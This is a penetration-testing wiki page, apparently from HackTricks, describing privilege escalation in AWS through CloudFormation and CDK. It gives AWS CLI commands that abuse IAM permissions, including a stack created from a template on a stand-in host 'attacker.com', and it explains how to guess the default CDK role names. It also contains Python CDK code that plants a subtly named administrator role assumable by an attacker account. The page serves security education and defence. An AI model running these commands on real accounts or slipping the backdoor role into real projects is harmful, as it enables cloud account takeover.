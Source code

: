 # AWS - Cloudformation Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## cloudformation

For more information about cloudformation check:

{{#ref}}
../../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### `iam:PassRole`, `cloudformation:CreateStack`

An attacker with these permissions **can escalate privileges** by crafting a **CloudFormation stack** with a custom template, hosted on their server, to **execute actions under the permissions of a specified role:**

```bash
aws cloudformation create-stack --stack-name <stack-name> \
    --template-url http://attacker.com/attackers.template \
    --role-arn <arn-role>
```

In the following page you have an **exploitation example** with the additional permission **`cloudformation:DescribeStacks`**:

{{#ref}}
iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md
{{#endref}}

**Potential Impact:** Privesc to the cloudformation service role specified.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

In this case you can a**buse an existing cloudformation stack** to update it and escalate privileges as in the previous scenario:

```bash
aws cloudformation update-stack \
    --stack-name privesc \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role specified.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

If you have this permission but **no `iam:PassRole`** you can still **update the stacks** used and abuse the **IAM Roles they have already attached**. Check the previous section for exploit example (just don't indicate any role in the update).

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `UpdateStack` permission** over a stack and perform the attack.

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

An attacker with permissions to **pass a role and create & execute a ChangeSet** can **create/update a new cloudformation stack abuse the cloudformation service roles** just like with the CreateStack or UpdateStack.

The following exploit is a **variation of the**[ **CreateStack one**](#iam-passrole-cloudformation-createstack) using the **ChangeSet permissions** to create a stack.

```bash
aws cloudformation create-change-set \
    --stack-name privesc \
    --change-set-name privesc \
    --change-set-type CREATE \
    --template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
    --role arn:aws:iam::947247140022:role/CloudFormationAdmin \
    --capabilities CAPABILITY_IAM \
    --region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
    --change-set-name privesc \
    --stack-name privesc \
    --region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
    --stack-name privesc \
    --region eu-west-1
```

The `cloudformation:SetStackPolicy` permission can be used to **give yourself `ChangeSet` permissions** over a stack and perform the attack.

**Potential Impact:** Privesc to cloudformation service roles.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

This is like the previous method without passing **IAM roles**, so you can just **abuse already attached ones**, just modify the parameter:

```
--change-set-type UPDATE
```

**Potential Impact:** Privesc to the cloudformation service role already attached.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

An attacker could abuse these permissions to create/update StackSets to abuse arbitrary cloudformation roles.

**Potential Impact:** Privesc to cloudformation service roles.

### `cloudformation:UpdateStackSet`

An attacker could abuse this permission without the passRole permission to update StackSets to abuse the attached cloudformation roles.

**Potential Impact:** Privesc to the attached cloudformation roles.

## AWS CDK

The AWS cdk is a toolkit for allowing users to define their infrastructure-as-code in languages they are already familiar with, as well as easily re-using sections. The CDK then converts the high-level code (ie python) into Cloudformation templates (yaml or json).

In order to use the CDK, an administrative user must first bootstrap the account, which create several IAM roles, including the *exec role*, which has \*/\* permissions. These roles follow the naming structure `cdk-<qualifier>-<name>-<account-id>-<region>`. Bootstrapping must be done once per region per account.

By default, CDK users do not have access to list the roles needed to use the CDK, meaning that you will need to determine them manually. If you compromise a developers machine or some CI/CD node, these roles can can be assumed to grant yourself the ability to deploy CFN templates, using the `cfn-exec` role to allow CFN to deploy any resources, fully compromising the account.

### Determining the role names

If you have `cloudformation:DescribeStacks`, the roles are defined in a stack called `CDKToolkit`, and you can pull the names from there.

If you're on a machine that has been used to build and deploy CDK projects, you can pull them from `cdk.out/manafest.json` in the projects root directory.

You can also make a good guess on what they are. `qualifier` is a string added to the roles allowing for multiple instance of the CDK bootstrap to be deployed at once, however the default value is hard-coded to `hnb659fds`. 

```
# Defaults
cdk-hnb659fds-cfn-exec-role-<account-id>-<region>
cdk-hnb659fds-deploy-role-<account-id>-<region>
cdk-hnb659fds-file-publishing-role-<account-id>-<region>
cdk-hnb659fds-image-publishing-role-<account-id>-<region>
cdk-hnb659fds-lookup-role-<account-id>-<region>
```

### Adding malicious code to the project source

If you can write to the project source, but cannot deploy it yourself (for example, the developer deploys the code via CI/CD, not the local machine), you can still compromise the environment by adding malicious resources to the stack. The following adds an IAM role that can be assumed by an attacker account to a python CDK project.

```python
class CdkTestStack(Stack):
    def __init__(self, scope: Construct, construct_id: str, **kwargs) -> None:
        super().__init__(scope, construct_id, **kwargs)

        # ----------
        # Some existing code.....
        # ----------

        role = iam.Role(
            self,
            "cdk-backup-role", # Role name, make it something subtle
            assumed_by=iam.AccountPrincipal("1234567890"), # Account to allow to assume the role
            managed_policies=[
                iam.ManagedPolicy.from_aws_managed_policy_name("AdministratorAccess") # Policies to attach, in this case AdministratorAccess
            ],
        )
```

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)
- [https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml](https://github.com/aws/aws-cdk-cli/blob/main/packages/aws-cdk/lib/api/bootstrap/bootstrap-template.yaml)

{{#include ../../../../banners/hacktricks-training.md}}




